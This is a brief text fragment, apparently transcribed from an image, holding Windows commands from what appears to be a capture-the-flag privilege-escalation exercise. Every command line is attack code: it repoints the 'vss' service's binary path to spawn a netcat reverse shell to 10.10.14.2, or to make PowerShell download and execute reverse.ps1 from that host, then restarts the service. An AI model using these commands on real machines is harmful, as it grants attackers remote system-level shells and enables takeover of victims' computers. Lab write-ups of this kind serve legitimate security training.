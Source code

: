 sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"  
sc.exe config vss binPath="C:\Windows\system32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')"  
sc.exe stop vss  
sc.exe start vss